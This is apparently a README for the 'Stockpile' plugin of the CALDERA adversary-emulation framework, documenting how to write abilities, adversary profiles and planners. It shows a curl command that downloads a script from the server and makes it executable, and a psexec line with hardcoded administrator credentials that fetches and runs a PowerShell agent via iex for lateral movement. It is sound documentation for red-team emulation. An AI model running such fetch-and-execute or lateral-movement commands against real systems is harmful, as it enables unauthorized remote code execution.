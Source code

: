 # CALDERA plugin: Stockpile

This plugin contains:

* A collection of abilities
* Pre-built adversary profiles
* A filestore
* A basic planner 

## Abilities

You can quickly add your own abilities and adversaries to the stockpile, both of which are reloaded every time
the core server reboots. Stockpile abilities are located in the abilities/ directory.

To add new ones, add a .yml file in the abilities directory, named after a unique ID (UUID-4 is our standard). 
This file should include an ID, name, description, ATT&CK tactic and command.

Below is an example ability. Read this carefully, it will be referenced later on.
```
- id: e9bcdf0d-be08-4aec-bf1e-e73655403d55
  name: Download WIFI tools
  description: Download a set of commands for manipulating WIFI
  tactic: discovery
  technique:
    attack_id: T1016
    name: System Network Configuration Discovery
  command: |
    curl -sk -X POST -H 'file:wifi.sh' #{server}/file/download > /tmp/wifi.sh &&
    chmod +x /tmp/wifi.sh
  cleanup:
    rm /tmp/wifi.sh
```

### Ability variables

As you write abilities, note that there are two global variables available, server and group, which 
can be used inside an ability command.

A variable is referenced with the syntax #{variable}.

* Server / #{server}: The location of CALDERA. Because each agent may have a different reference point
for where CALDERA is (IP, FQDN, etc), if an ability wants to reference CALDERA it should use #{server}. 
* Group / #{group}: The group used in the active operation.

In the ability example above, note the usage of the #{server} variable.

The group variable is a bit more advanced. This is useful primarily for lateral movement abilities where
the agent may move itself to a new host. A snippet of what this may look like (for PSExec) would be
```
psexec \\127.0.0.1 -u administrator -p password123 Powershell.exe iex (irm -Method Post -Headers @{'file'='54ndc47.ps1'}  #{server}/file/render?group=#{group})
```

### Download files from CALDERA to an agent

In the ability example, note the command downloading the wifi.sh file from CALDERA. It does this by sending a
POST request to the API endpoint /file/download, including the requested filename as a header.

The /file/download endpoint will look inside the filestore directory of every loaded plugin when called.

### Cleanup

Abilities can optionally include a cleanup block, which will execute automatically at the end of an operation. The
cleanup should be used in instances you want to reverse a mutable action, such as stopping a started process. In
the ability example above, note how the cleanup block is written. Cleanup actions will occur in reverse order
of the abilities that ran.

## Adversaries

New adversaries can be added to the adversaries.yml file.

## Planners

A basic planner, called sequential, runs all abilities on an adversary against all hosts in a group
